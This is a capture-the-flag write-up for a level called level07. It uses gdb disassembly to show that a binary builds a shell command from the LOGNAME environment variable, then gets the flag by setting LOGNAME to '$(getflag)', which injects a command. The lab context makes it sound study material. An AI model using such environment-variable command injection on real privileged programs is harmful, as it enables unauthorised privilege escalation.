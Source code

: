 ## level07

There is a level07 executable that simply displays "level07".

I used gdb to disassemble the program:

```
gdb level07
disas main
```

```
[...]
0x0804856f <+91>:    movl   $0x8048680,(%esp)               // x/s 0x8048680: LOGNAME
0x08048576 <+98>:    call   0x8048400 <getenv@plt>
0x0804857b <+103>:   mov    %eax,0x8(%esp)
0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)            // x/s 0x8048688: "/bin/echo %s "
0x08048587 <+115>:   lea    0x14(%esp),%eax
0x0804858b <+119>:   mov    %eax,(%esp)
0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
[...]
```

It is clear that the program makes a call to `getenv()` to get the value of the environment variable LOGNAME, and then display it with `/bin/echo`.

Not surprisingly, the environment variable LOGNAME is currently equal to 'level07'. All I need to do is change the LOGNAME environment variable so that the program displays what I want.

`export 'LOGNAME=$(getflag)' ; ./level07` and it's done.